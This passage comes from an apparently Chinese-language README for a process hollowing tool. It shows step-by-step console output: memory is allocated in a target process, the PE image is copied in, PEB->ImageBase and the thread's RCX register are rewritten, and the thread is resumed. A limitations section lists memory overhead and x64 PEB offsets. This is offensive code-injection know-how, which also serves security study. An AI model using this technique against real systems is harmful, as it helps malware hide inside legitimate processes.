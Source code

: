 ```
[*] Step 5: Allocating memory in target process...
[*] Trying preferred address: 0x0000000140000000
[+] New ImageBase: 0x0000000140000000
[+] New EntryPoint: 0x0000000140001000

[*] Step 6: Copying PE headers...
[+] Headers copied

[*] Step 7: Copying PE sections...
[*] Section 0: .text (1024 bytes at 0x0000000140001000)
[*] Section 1: .rdata (512 bytes at 0x0000000140002000)
[*] Section 2: .data (512 bytes at 0x0000000140002800)
[+] All sections copied

[*] Step 8: Updating PEB->ImageBase...
[+] PEB->ImageBase updated to: 0x0000000140000000

[*] Step 9: Applying relocations...
[+] Loaded at preferred address, no relocation needed

[*] Step 10: Updating thread context (RCX register)...
[*] Original RCX: 0x00007FF712340000
[*] New RCX (EntryPoint): 0x0000000140001000
[+] Thread context updated

[*] Step 11: Resuming thread...
[+] Thread resumed

===================================================================
[+] Advanced Hollowing completed successfully!
===================================================================

[*] Press Enter to exit...
```

## 技术限制

### 1. 内存开销

- **问题**: 原始镜像 + Payload 同时存在内存
- **影响**: 内存占用约为 payload 的 2-3 倍
- **示例**: 10MB payload → 20-30MB 实际占用

### 2. 架构依赖

- **仅支持 x64**
- PEB 偏移在不同架构下不同:
  - x64: `PEB + 0x10` = ImageBase
  - x86: `PEB + 0x08` = ImageBase

### 3. PE 格式限制
